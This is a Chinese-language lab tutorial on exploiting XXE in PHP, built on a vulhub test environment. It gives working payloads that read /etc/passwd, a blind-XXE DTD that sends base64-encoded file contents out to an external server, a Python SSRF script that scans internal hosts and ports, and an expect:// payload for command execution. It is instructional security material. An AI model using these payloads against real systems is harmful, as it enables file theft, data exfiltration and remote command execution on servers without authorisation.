




## XXE简介


在理解什么是XXE之前首先要知道什么是XML，XXE的全称为XML External Entity Injection，就是XML外部实体注入。XML是一种通用的数据交换语言，当处理数据时没有限制外部实体的使用，就可能会导致攻击者构造XML外部实体达到窃取数据，命令执行，钓鱼等行为。关于XML和XXE的详细介绍请查看[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)，本文重点通过实验介绍PHP XXE的几种利用。
本次演示使用的环境为：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe)


## 获取敏感信息


通过XXE可以获取服务端的敏感信息，比如配置信息，系统文件，源代码等，有的环境是有回显的，有的是无回显的，有回显的相对比较容易操作。


### 有回显


先看源代码：


```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;

```


payload:


```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>

```


通过此paylod就可以回显/etc/passwd的内容：





### 无回显


无回显的XXE利用必须借助外部服务器把回显内容带出来，这种的XXE也称为 `blind XXE`.


源代码：


```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom->loadXML($data);

```





如图，如果直接执行的话是没有任何回显的。可以使用http协议将请求发送到远程服务器上，从而获取文件内容。


首先在远程服务器写入一个dtd文件，例如`test.dtd`,文件内容如下：


> `%` 号需要实体16进制编码为 `&#x25;`


```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://192.168.2.1/%file;'>">

```


然后利用如下payload：


```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.2.1/test.dtd">
%remote;%int;%send;
]>

```


就可以将数据外带到服务端：





执行逻辑大概如下：


从 payload 中能看到 连续调用了三个参数实体 `%remote`;`%int`;`%send`;，这就是我们的利用顺序，`%remote`先调用，调用后请求远程服务器上的`test.dtd` ，有点类似于将 `test.dtd`包含进来，然后 `%int` 调用 `test.dtd` 中的 `%file`, `%file` 就会去获取服务器上面的敏感文件，然后将 `%file` 的结果填入到 `%send` 以后(因为实体的值中不能有 `%`, 所以将其转成html实体编码 `&#x25`;)，我们再调用 `%send`; 把我们的读取到的数据以GET请求的方式发送到我们的服务器上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。


## SSRF


上面的两个实验中我们使用了file协议来读取文件内容或者通过http请求来外带信息，这种操作和SSRF很像，其实XXE也是SSRF攻击手法中的一种。接下来我们就演示使用SSRF探测内网主机开放端口和内网存活主机。


探测脚本如下，大家可根据实际情况修改脚本：


```python
_import requests


def buildxml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    sendxml(xml)

def sendxml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.123.128:8080/dom.php', data=xml, headers=headers, timeout=5).text
    codedstring = x.split(' ')
    if codedstring[7] == "host":
        print("主机不存活")
    else:
        print ("主机存活，探测到的端口服务为：%s"%(codedstring[7]))


for i in range(125, 135):
    try:
        i = str(i)
        ip = '192.168.123.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + ':22'+'/'
        print(string)
        buildxml(string)
    except:
        continue_

```


探测结果：





## expect RCE


当php安装了expect扩展后（此扩展默认未安装），攻击者就可以利用except进行远程代码执行的操作。


示例POC


```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>

```


除此外，XXE还可以造成DDOS,文件上传，钓鱼等攻击，由于环境原因，不便演示，在先知的[这篇文章](https://xz.aliyun.com/t/3357)中作者也有详细讲解，感兴趣的可以去看。


## 参考

- [浅谈XXE攻击](https://www.freebuf.com/articles/web/126788.html)
- [简析XXE](https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/)
- [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)
